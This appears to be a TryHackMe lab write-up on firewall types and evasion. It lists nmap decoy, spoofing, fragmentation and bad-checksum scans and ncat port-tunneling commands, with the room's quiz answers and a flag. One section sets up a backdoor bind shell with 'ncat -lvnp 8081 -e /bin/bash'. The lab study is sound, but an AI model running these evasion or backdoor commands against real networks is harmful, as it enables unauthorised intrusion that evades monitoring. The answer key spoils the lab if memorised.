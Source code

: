 # Firewalls - Medium

1. [Introduction](#introduction)
2. [Types of Firewalls](#types-of-firewalls)
3. [Evasion via Controlling the Source MAC/IP/Port](#evasion-via-controlling-the-source-macipport)
4. [Evasion via Forcing Fragmentation, MTU, and Data Length](#evasion-via-forcing-fragmentation-mtu-and-data-length)
5. [Evasion via Modifying Header Fields](#evasion-via-modifying-header-fields)
6. [Evasion using Port Hopping](#evasion-using-port-hopping)
7. [Evasion using Port Tunneling](#evasion-using-port-tunneling)
8. [Evasion using Non-Standard Ports](#evasion-using-non-standard-ports)
9. [Next-Generation Firewalls](#next-generation-firewalls)

## Introduction

* Firewall - software/hardware that monitors network traffic and compares it against rules before passing/blocking it.

* A basic firewall can inspect certain fields from an IP header, such as:

  * Protocol
  * Source address
  * Source port number
  * Destination address
  * Destination port number

```markdown
1. If you want to block telnet, which TCP port number would you deny? - 23

2. You want to allow HTTPS, which TCP port number do you need to permit? - 443

3. What is an alternate TCP port number used for HTTP? It is described as “HTTP Alternate.” - 8080

4. You need to allow SNMP over SSH, snmpssh. Which port should be permitted? - 5161
```

## Types of Firewalls

* Types of firewalls based on independence:

  * Hardware firewall
  * Software firewall

* Types of firewalls based on network size:

  * Personal firewall
  * Commercial firewall

* Types of firewalls based on abilities:

  * Packet-filtering firewall - most basic type of firewall as it inspects packet field contents; stateless inspection firewall.

  * Circuit-level gateway - in addition to packet-filtering firewall's features, these gateways provide extra features such as checking TCP 3-way handshake against firewall rules.

  * Stateful inspection firewall - additional layer of security as it keeps track of established TCP sessions.

  * Proxy firewall - also referred to as Application firewall (AF) and Web application firewall (WAF); it can inspect contents of packet headers as well as packet payload; used mainly for web apps.

  * Next-generation firewall (NGFW) - offers highest firewall protection; monitors all network layers (OSI layer 2 to 7); has application awareness and control.

  * Cloud firewall or Firewall as a Service (FWaaS) - replaces hardware firewall in cloud system; benefits from scalability of cloud architecture.

```markdown
1. What is the most basic type of firewall? - Packet-filtering firewall

2. What is the most advanced type of firewall that you can have on company premises? - Next-generation firewall
```

## Evasion via Controlling the Source MAC/IP/Port

```shell
nmap -sS -Pn -F MACHINE_IP
#-sS is for stealth scan
#-Pn is to skip host discovery; used when no ping reply is received
#-F is for scanning top 100 common ports

nmap -sS -Pn -D 10.10.10.1,10.10.10.2,ME -F MACHINE_IP
#-D for using decoy source IP addresses to confuse target
#ME is the source IP address running the scan

nmap -sS -Pn -D RND,RND,ME -F MACHINE_IP
#choose 2 random source IPs to use as decoys

nmap -sS -Pn --proxies PROXY_URL -F MACHINE_IP
#uses HTTP/SOCKS4 proxy
#helps in keeping our IP adress unknown to target
#target logs IP of proxy server

nmap -sS --spoof-mac MAC_ADDRESS -F MACHINE_IP
#spoofs source MAC address
#works only if our system is on same network segment as target host

nmap -sS -S IP_ADDRESS -F MACHINE_IP
#spoofs source IP address
#useful if system is on same subnet as target

nmap -sS -Pn -g 8080 -F MACHINE_IP
#nmap scan with fixed source port 8080
```

```markdown
1. What is the size of the IP packet when using a default Nmap stealth (SYN) scan? - 44

2. How many bytes does the TCP segment hold in its data field when using a default Nmap stealth (SYN) scan? - 0

3. Approximately, how many packets do you expect Nmap to send when running the command nmap -sS -F MACHINE_IP? - 200

4. Approximately, how many packets do you expect Nmap to send when running the command nmap -sS -Pn -D RND,10.10.55.33,ME,RND -F MACHINE_IP? - 800

5. What do you expect the target to see as the source of the scan when you run the command nmap -sS -Pn --proxies 10.10.13.37 MACHINE_IP? - 10.10.13.37

6. What company has registered the following Organizationally Unique Identifier (OUI), i.e., the first 24 bits of a MAC address, 00:02:DC? - Fujitsu General Ltd

7. What option needs to be added to your Nmap command to spoof your address accordingly? - -S 10.10.0.254

8. What do you need to add to your Nmap command to set the source port number to 53? - -g 53
```

## Evasion via Forcing Fragmentation, MTU, and Data Length

```shell
nmap -sS -Pn -f -F MACHINE_IP
#-f for fragmenting IP packet to carry only 8 bytes of data

nmap -sS -Pn -ff -F MACHINE_IP
#-ff for limiting IP data to 16 bytes

nmap -sS -Pn --mtu 8 -F MACHINE_IP
#mtu (max transmission unit) specifies number of bytes per IP packet
#--mtu 8 same as -f

nmap -sS -Pn --data-length 64 -F MACHINE_IP
#set length of data in IP packet
```

```markdown
1. What is the size of the IP packet when running Nmap with the -f option? - 28

2. What is the maximum size of the IP packet when running Nmap with the -ff option? - 36

3. What is the maximum size of the IP packet when running Nmap with --mtu 36 option? - 56

4. What is the maximum size of the IP packet when running Nmap with --data-length 128 option? - 148
```

## Evasion via Modifying Header Fields

```shell
nmap -sS -Pn --ttl 81 -F MACHINE_IP
#sets TTL (time-to-live) to custom value

nmap -sS -Pn -ttl 2 -F 10.10.225.183

nmap -sS -Pn --badsum -F 10.10.225.183
#send packets with intentionally wrong checksum
```

```markdown
1. Scan the attached MS Windows machine using --ttl 2 option. How many ports appear to be open? - 3

2. Scan the attached MS Windows machine using the --badsum option. How many ports appear to be open? - 0
```

## Evasion using Port Hopping

* Port hopping - app hops from one port to another till it can establish & maintain a connection.

```shell
ncat -lvnp 1025
#listening on port 1025
#we can use the given webpage to check which ports can be connected to
```

```markdown
1. Discover which port number of the following destination TCP port numbers are reachable from the protected system. - 21
```

## Evasion using Port Tunneling

* Port tunneling - also known as port forwarding or port mapping; this forwards packets sent to one destination port to another destination port.

```shell
ncat -lvnp 443 -c "ncat MACHINE_IP 25"
#ncat will listen on port 443
#but it will forward all packets to port 25 on target

ncat -lvnp 8008 -c "ncat localhost 80"
#for flag, go to the web server hosted on port 8008
```

```markdown
1. Using port tunneling, browse to the web server and retrieve the flag. -  THM{1298331956}
```

## Evasion using Non-Standard Ports

```shell
ncat -lvnp 8081 -e /bin/bash
#creates backdoor via port 8081

#on attacker machine
ncat 10.10.173.45 8081
#to connect to target
```

```markdown
1. What is the user name associated with which you are logged in? - thmredteam
```

## Next-Generation Firewalls

```markdown
1. What is the number of the highest OSI layer that an NGFW can process? - 7
```
